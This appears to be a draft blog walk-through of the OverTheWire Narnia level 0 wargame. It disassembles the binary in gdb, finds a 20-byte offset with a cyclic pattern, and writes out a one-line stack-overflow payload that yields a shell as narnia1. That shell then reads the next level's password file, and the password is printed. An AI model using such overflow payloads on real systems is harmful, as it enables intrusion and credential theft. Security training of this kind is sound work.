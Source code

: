 +++
title = "Over the wire - narnia00"
description = "Walk-through"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-00"
project_url = "https://greyhat.dk/over-the-wire-narnia-00"
type = "post"
+++



(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484fd <+0>:	push   ebp
   0x080484fe <+1>:	mov    ebp,esp
   0x08048500 <+3>:	and    esp,0xfffffff0
   0x08048503 <+6>:	sub    esp,0x30 ; 48
   0x08048506 <+9>:	mov    DWORD PTR [esp+0x2c],0x41414141
   0x0804850e <+17>:	mov    DWORD PTR [esp],0x8048630 ; "Correct val's value from 0x41414141 -> 0xdeadbeef!"
   0x08048515 <+24>:	call   0x80483a0 <puts@plt>
   0x0804851a <+29>:	mov    DWORD PTR [esp],0x8048663
   0x08048521 <+36>:	call   0x8048390 <printf@plt>
   0x08048526 <+41>:	lea    eax,[esp+0x18]
   0x0804852a <+45>:	mov    DWORD PTR [esp+0x4],eax
   0x0804852e <+49>:	mov    DWORD PTR [esp],0x8048679
   0x08048535 <+56>:	call   0x80483f0 <__isoc99_scanf@plt>
   0x0804853a <+61>:	lea    eax,[esp+0x18]
   0x0804853e <+65>:	mov    DWORD PTR [esp+0x4],eax
   0x08048542 <+69>:	mov    DWORD PTR [esp],0x804867e
   0x08048549 <+76>:	call   0x8048390 <printf@plt>
   0x0804854e <+81>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048552 <+85>:	mov    DWORD PTR [esp+0x4],eax
   0x08048556 <+89>:	mov    DWORD PTR [esp],0x8048687
   0x0804855d <+96>:	call   0x8048390 <printf@plt>
   0x08048562 <+101>:	cmp    DWORD PTR [esp+0x2c],0xdeadbeef
   0x0804856a <+109>:	jne    0x804857a <main+125>
   0x0804856c <+111>:	mov    DWORD PTR [esp],0x8048694
   0x08048573 <+118>:	call   0x80483b0 <system@plt>
   0x08048578 <+123>:	jmp    0x8048592 <main+149>
   0x0804857a <+125>:	mov    DWORD PTR [esp],0x804869c
   0x08048581 <+132>:	call   0x80483a0 <puts@plt>
   0x08048586 <+137>:	mov    DWORD PTR [esp],0x1
   0x0804858d <+144>:	call   0x80483d0 <exit@plt>
   0x08048592 <+149>:	mov    eax,0x0
   0x08048597 <+154>:	leave
   0x08048598 <+155>:	ret
End of assembler dump.


(gdb) r
Starting program: /games/narnia/narnia0 reg
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
buf: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7
val: 0x37614136
WAY OFF!!!!
[Inferior 1 (process 5653) exited with code 01]

kgn@kali:~$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 0x37614136
[*] Exact match at offset 20

(echo "$(python -c 'print "B"*20 + "\xef\xbe\xad\xde"')";cat)|./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae

